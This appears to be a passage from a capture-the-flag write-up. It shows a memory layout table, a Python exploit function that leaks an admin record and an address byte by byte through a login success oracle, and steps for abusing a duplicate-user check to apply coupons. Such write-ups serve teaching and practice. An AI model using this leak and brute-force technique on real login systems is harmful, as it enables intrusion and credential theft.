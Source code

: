 | address |  general info  |          i=32          |
|:-------:|:--------------:|:----------------------:|
| + 0x00  |  pw's object   |  admin info's address  |
| + 0x08  |  pw's object   |   all info's number    |
| + 0x10  |  pw's object   |        nothing         |
| + 0x18  |  pw's object   |        is login        |
| + 0x20  |  id's object   |    'Welcome!' addr     |
| + 0x28  |  id's object   |           8            |
| + 0x30  |  id's object   |       'Welcome!'       |
| + 0x38  |  id's object   |        nothing         |
| + 0x40  | email's object |     addr of login      |
| + 0x48  | email's object | total number of logins |
| + 0x50  | email's object |         genstr         |
| + 0x58  | email's object |        nothing         |
| + 0x60  |      age       |        nothing         |

</div>
<br />

```python
def leak_admin_info():
    global r
    admin_info = b''

    while len(admin_info) != 0x18:
        for i in range(256):
            if(i >= 9 and i <= 13) or i ==32:
                continue
            guessbyte = bytes([i])
            login(b'Welcome!', admin_info + guessbyte)
            if b'Success' in r.recvline():
                admin_info = admin_info + guessbyte
                break
        imsi = bytes([len(admin_info) + 0x60])
        logout()
        if len(admin_info) != 0x18:
            jjoin(imsi, imsi, imsi, len(admin_info))
        print(f'{len(admin_info)}: {admin_info}')

    return admin_info[0x10:].decode(), u64(admin_info[0:8]) + 0xd90
```
<br />

### Apply coupon
- For the next step(win the game), we must apply 4 coupons for i=32('Welcome!').
- If id is same, coupon can be apply to others.
- New 'Welcome!' user can join because i=32 is not checked when checking for duplicates.
- So, join another 'Welcome!' user, get coupon, and apply 4 coupons for i=32.
